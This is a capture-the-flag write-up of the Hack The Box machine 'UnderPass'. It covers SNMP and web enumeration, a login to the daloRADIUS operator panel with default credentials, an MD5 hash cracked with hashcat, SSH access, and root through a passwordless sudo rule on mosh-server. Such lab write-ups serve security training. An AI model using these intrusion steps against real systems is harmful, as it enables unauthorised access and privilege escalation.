 # UnderPass - HTB

# Enumeration

## Nmap scan

First I start with a scan of the top 100 UDP ports. 

```bash
nmap -sU -vv -T4 --top-ports 100 10.10.11.48
```

```bash
PORT      STATE         SERVICE     REASON
19/udp    open|filtered chargen     no-response
67/udp    open|filtered dhcps       no-response
111/udp   open|filtered rpcbind     no-response
137/udp   open|filtered netbios-ns  no-response
161/udp   open          snmp        udp-response ttl 63
427/udp   open|filtered svrloc      no-response
1025/udp  open|filtered blackjack   no-response
1028/udp  open|filtered ms-lsa      no-response
1646/udp  open|filtered radacct     no-response
1812/udp  open|filtered radius      no-response
1813/udp  open|filtered radacct     no-response
9200/udp  open|filtered wap-wsp     no-response
30718/udp open|filtered unknown     no-response
32769/udp open|filtered filenet-rpc no-response

```

## SNMP(161)

### SNMP Enumeration

Enumeration with `msfconsole` using `auxiliary/scanner/snmp/snmp_enum` auxiliary.

```bash
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > show options 

Module options (auxiliary/scanner/snmp/snmp_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      161              yes       The target port (UDP)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    1                yes       SNMP Timeout
   VERSION    1                yes       SNMP Version <1/2c>

View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/snmp/snmp_enum) > set rhosts 10.10.11.48
rhosts => 10.10.11.48
msf6 auxiliary(scanner/snmp/snmp_enum) > run

```

The result is

```bash
Host IP                       : 10.10.11.48
Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Contact                       : steve@underpass.htb
Location                      : Nevada, U.S.A. but not Vegas
Uptime snmp                   : 02:19:12.69
Uptime system                 : 02:19:00.95
System date                   : 2025-1-17 23:08:11.0

```

Now I retried the Nmap scan

## Nmap scan (again)

Now I found two open ports:

- 22 for SSH
- 80 for HTTP

```bash
nmap -T4 -sV -sC -vvv -p- underpass.htb 
```

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## SSH(22)

- SSH password authentication is enabled

```bash
[zerodol@master] ~  
❯ ssh root@underpass.htb 
The authenticity of host 'underpass.htb (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'underpass.htb' (ED25519) to the list of known hosts.
root@underpass.htb's password: 
```

## HTTP(80)

### Dirsearch

In the result of the SNMP enumeration there is a hint `UnDerPass.htb is the only daloradius server in the basin!` When I searched for **daloradius server** in google there is this website that gives us more information [https://debian-facile.org/doc:reseau:web:freeradius](https://debian-facile.org/doc:reseau:web:freeradius).

Now I can fuzz the daloradius server.

```bash
dirsearch -u http://underpass.htb/
```

```bash
[00:28:26] Starting: daloradius/
[00:28:28] 200 -  221B  - /daloradius/.gitignore                            
[00:28:36] 301 -  323B  - /daloradius/app  ->  http://underpass.htb/daloradius/app/
[00:28:38] 200 -   24KB - /daloradius/ChangeLog                             
[00:28:41] 301 -  323B  - /daloradius/doc  ->  http://underpass.htb/daloradius/doc/
[00:28:41] 200 -    2KB - /daloradius/Dockerfile                            
[00:28:41] 200 -    2KB - /daloradius/docker-compose.yml
[00:28:46] 301 -  327B  - /daloradius/library  ->  http://underpass.htb/daloradius/library/
[00:28:46] 200 -   18KB - /daloradius/LICENSE                               
[00:28:52] 200 -   10KB - /daloradius/README.md                             
[00:28:54] 301 -  325B  - /daloradius/setup  ->  http://underpass.htb/daloradius/setup/

```

I continued the directory fuzzing on the `/app`.

```bash
dirsearch -u http://underpass.htb/daloradius/app/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```bash
[00:32:23] Starting: daloradius/app/                                                                                                             
[00:32:37] 301 -  330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[00:32:59] 301 -  329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[00:33:46] 301 -  333B  - /daloradius/app/operators  ->  http://underpass.htb/daloradius/app/operators/
[00:33:59] 302 -    0B  - /daloradius/app/users/  ->  home-main.php         
[00:34:37] 200 -    2KB - /daloradius/app/users/login.php
```

### Website Features

We have a login form on the `/daloradius/app/users/login.php` web page

![image.png](image.png)

I tried the default credentials `adminstrator:radius` but it didn’t work

Now I go to the `/daloradius/app/operator` and we’re redirected to another login form

![image.png](image%201.png)

Here I tried the default credentials `administrator:radius` and it worked. We’re logged in.

![image.png](image%202.png)

We have a user and a MD5 hash on `Management > Users > List Users` 

```
USER : svcMosh
HASH : 412DD4759978ACFCC81DEAB01B382403
```

![image.png](image%203.png)

We can crack the password using `hashcat`.

```bash
hashcat -m 0 svcmosh-hash.txt /usr/share/wordlists/rockyou.txt
```

And boom we have the password : `underwaterfriends` 

# Post Exploitation

## Shell as svcMosh

With our credentials we can access the target via SSH

```
USER : svcMosh
PASSWORD : underwaterfriends
```

![image.png](image%204.png)

## Sudo Privileges

We check our privileges and see that we can execute `/usr/bin/mosh-server` without a password.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

## Shell as root

I searched for mosh-server privilege escalation and found an interesting medium web page :  https://medium.com/@Chandravarma.Hattaraki/privilege-escalation-using-linpeas-1ecbd6029387

All we have to do is to execute this following command

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

And boom we’re root. We can retrieve the root flag in the `/root/root.txt` file.

![image.png](image%205.png)